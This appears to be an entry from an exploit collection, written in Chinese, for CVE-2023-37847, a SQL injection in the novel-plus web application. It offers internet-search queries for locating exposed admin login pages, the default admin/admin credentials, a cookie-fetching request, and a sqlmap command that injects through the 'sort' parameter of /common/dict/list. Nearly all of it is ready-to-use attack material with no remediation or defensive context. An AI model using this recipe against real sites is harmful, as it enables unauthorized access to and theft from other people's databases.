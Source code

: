 # novel-plus SQL注入漏洞 CVE-2023-37847

## 网络测绘

fofa: body="小说精品屋后台登录"

hunter: web.body="小说精品屋后台登录"

## POC / EXP

```
# 后台默认密码
admin/admin

# 获取Cookie
GET /common/dict
Host: x.x.x.x
Cookie: JSESSIONID=x-x-x-x-x

# payload
sqlmap -u "http://127.0.0.1/common/dict/list?sort=1&limit=10&offset=0&type=" --cookie "JSESSIONID=x-x-x-x-x" -p "sort" --level 5
```